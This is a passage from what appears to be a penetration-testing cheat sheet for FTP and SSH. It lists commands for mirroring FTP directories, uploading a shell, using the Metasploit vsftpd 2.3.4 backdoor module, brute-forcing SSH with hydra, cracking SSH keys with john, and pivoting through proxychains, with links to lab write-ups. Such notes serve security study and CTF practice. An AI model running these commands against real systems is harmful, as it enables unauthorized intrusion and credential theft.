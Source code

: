 	# Recursively download whole ftp directories
	wget -m --no-parent --no-passive ftp://username:password@IP

	# Interactive mode off & get all files
	prompt
	mget *

	# Change Binary mode (default Ascii mode) transfer to upload exe file
	binary
	ascii

	# Upload shell
	put shell
	# Get files for analysis
	get files

- Examine configuration files: `ftpusers`, `ftp.conf`, `proftpd.conf`
#### Resources to Look at:
- https://hackercool.com/2017/07/hacking-ftp-telnet-and-ssh-metasploitable-tutorials/
## Very Secure FTP Daemon (vsftpd)
#### Writeups
- v2.3.4 exploit
	- https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/
	- [HTB-Lame](https://0xdf.gitlab.io/2020/04/07/htb-lame.html), [HTB-LaCasaDePapel](https://0xdf.gitlab.io/2019/07/27/htb-lacasadepapel.html)
	- `msf> use exploit/unix/ftp/vsftpd_234_backdoor`
## ProFTPd
#### Resources to Look at:
- https://hackercool.com/2020/03/hacking-proftpd-on-port-2121-and-hacking-the-services-on-port-1524/
# Port 22 - SSH
- Banner grab: telnet $IP 22
- Try weak creds & Brute-force (exploitable in case of a very old version)
	```
	hydra -L users.txt -P rockyou.txt $IP ssh
	hydra -l $USERNAME -P /usr/share/wordlists/wfuzz/others/common_pass.txt 		ssh://$IP
	```
- Crack passwords with john
	```
	python ssh2john.py id_rsa > id_rsa.hash
	john --wordlist=rockyou.txt id_rsa.hash
	ssh -i /home/$username/.ssh/id_rsa $username@$IP
	```
- Examine configuration files: `ssh_config`, `sshd_config`, `authorized_keys`, `ssh_known_hosts`, `.shosts`
- Proxychains
	```
	# if ssh is filtered, add 'http $IP 3128' to /etc/proxychains.conf
	proxychains ssh $username@$IP /bin/bash